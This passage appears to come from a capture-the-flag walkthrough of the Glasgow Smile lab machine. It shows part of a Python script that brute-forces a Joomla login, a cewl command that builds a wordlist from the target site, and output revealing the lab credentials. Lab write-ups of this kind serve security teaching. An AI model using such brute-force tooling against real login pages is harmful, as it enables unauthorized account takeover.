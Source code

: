 ```python

    for passwd in wordlist:
        if 'alert-message' not in login(passwd):
            print(f"{green}[+] {user}:{passwd} {reset:20}")
            sys.exit(0)
        else:
            print(f"{gray}[-] {user}:{passwd}{reset:20}", end='\r')


if __name__=="__main__":
    main()
```

After trying to find the password of several possible users, it ocurred me to create a wordlist with cewl.

```console
root@kali:~$ cewl http://192.168.179.165/joomla -w cewl.list
```

Then, as a last try I used the joomla user to brute force and finally found the password.

```console
root@kali:~$ python3 jf.py
[+] joomla:Gotham
```

I logged in as joomla.

![](/assets/images/glasgowsmile/screenshot-3.png)
